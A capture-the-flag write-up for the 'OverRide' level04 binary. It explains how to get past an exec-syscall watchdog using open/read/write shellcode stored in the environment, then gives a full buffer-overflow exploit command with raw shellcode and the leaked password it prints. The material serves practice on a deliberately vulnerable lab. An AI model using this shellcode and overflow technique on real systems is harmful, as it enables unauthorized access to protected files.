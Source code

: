 Here the program is using multiple process with the main process watching the child in which we will do our exploit to see if we are trying to use the exec syscall. So we have to cook a new shellcode that does not use the exec syscall. To do so we do an open, read, write on the .pass file which is faster but way bigger in characters.

Now that we have our shellcode, we have to place it somewhere and the only place where we have nearly unlimited room to place our gigabig shellcode is the env. So we will place our variable in the env and use env -i to make sure the env is empty and the addresses are always the same.

Now we get the EIP offset with the cyclic string as usual and find the offset is 156 and we just place our shellcode address into EIP and run it

```bash
level04@OverRide:~$ python -c 'print "\x90" * 156 + "\x73\xdf\xff\xff"' | env -i SHELLCODE=$(python -c 'print "\x31\xc0\x50\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x68\x90\x90\x90\x90\x6a\x73\x68\x2e\x70\x61\x73\x68\x30\x35\x2f\x2f\x68\x65\x76\x65\x6c\x68\x72\x73\x2f\x6c\x68\x2f\x75\x73\x65\x68\x68\x6f\x6d\x65\x68\x2f\x2f\x2f\x2f\x89\xe3\x31\xc9\x31\xd2\xb0\x05\xcd\x80\x89\xc3\x31\xc0\x89\xe1\xb2\x80\xb0\x03\xcd\x80\xb0\x04\xb3\x01\xcd\x80\x31\xc0\xb0\x06\xcd\x80"') ./level04
Give me some shellcode, k
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```